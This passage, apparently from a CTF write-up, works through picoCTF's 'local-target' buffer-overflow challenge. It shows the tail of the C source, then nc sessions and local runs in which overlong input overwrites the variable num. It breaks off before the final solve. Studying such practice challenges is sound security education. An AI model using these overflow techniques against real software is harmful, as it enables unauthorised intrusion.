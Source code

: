 ```c
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }

  printf("Bye!\n");
  fflush(stdout);
}
```

## Solve:
- Booting into the challenge, I was asked to input a string,
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ nc saturn.picoctf.net 63277
Enter a string: 12345678901234567890

num is 64
Bye!
```
- I tried to create an overflow by inputting some more random characters, After I saw that after 24 characters, the value of `num` gets changed.
- Now I had to figure out what I had to input to get the value to be changed to `65`.
```
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ nc saturn.picoctf.net 63277
Enter a string: 12345678901234567890123410

num is 12337
Bye!

sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 1234567890123456789012342

num is 50
Bye!

Enter a string: 12345678901234567890123410

num is 12337
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 1234567890123456789012340

num is 48
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: 12345678901234567890123411

num is 12593
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAA12

num is 12849
Bye!
sparsh@LAPTOP-F80QI4V2 ~/ctf/ltarget $ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAA

num is 0

```